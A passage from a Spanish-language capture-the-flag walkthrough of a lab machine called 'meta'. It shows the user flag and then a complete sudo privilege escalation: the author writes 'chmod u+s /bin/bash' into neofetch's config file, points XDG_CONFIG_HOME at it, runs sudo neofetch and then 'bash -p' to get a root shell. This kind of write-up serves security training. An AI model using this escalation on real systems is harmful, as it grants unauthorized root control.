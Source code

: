```bash
thomas@meta:~$ head -c 10 user.txt; echo
74f2b57ad0
```

¡Genial! Solo nos queda escalar privilegios para lograr obtener la flag de root, iniciamos con la enumeración de comandos y variables permitidas bajo el comando sudo.

## ESCALADA DE PRIVILEGIOS

```bash
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

Luego de investigar, encontramos que la variable XDG_CONFIG_HOME es potencial vector de escalamiento junto con el comando neofetch.

* Entramos al a ruta `~/.config/neofetch`
* Ingresamos al fichero `config.conf` 
* Agregamos la siguiente línea dando permisos suid a `/bin/bash`
* Asignamos la ruta modificada a la variable `XDG_CONFIG_HOME`
* Ejecutamos el comando `neofetch` como sudo
* Revisamos los permisos suid de `/bin/bash`
* Ejecutamos el comando `bash -p` para tener acceso privilegiado a la maquina

```bash
thomas@meta:~/.config/neofetch$ nano config.conf 

chmod u+s /bin/bash

thomas@meta:~/.config/neofetch$ export XDG_CONFIG_HOME=/home/thomas/.config/

thomas@meta:~/.config/neofetch$ sudo neofetch
       _,met$$$$$gg.          root@meta 
    ,g$$$$$$$$$$$$$$$P.       --------- 
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64 
 ,$$P'              `$$$.     Host: VMware Virtual Platform None 
',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-17-amd64 
`d$$'     ,$P"'   .    $$$    Uptime: 19 hours, 15 mins 
 $$P      d$'     ,    $$P    Packages: 495 (dpkg) 
 $$:      $$.   -    ,d$$'    Shell: bash 5.0.3 
 $$;      Y$b._   _,d$P'      CPU: Intel Xeon Gold 5218 (2) @ 2.294GHz 
 Y$$.    `.`"Y$$$$P"'         GPU: VMware SVGA II Adapter 
 `$$b      "-.__              Memory: 167MiB / 1994MiB 
  `Y$$
   `Y$$.                                              
     `$$b.
       `Y$$b.
          `"Y$b._
              `"""

thomas@meta:~/.config/neofetch$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash


thomas@meta:~/.config/neofetch$ bash -p
bash-5.0# whoami
root
```

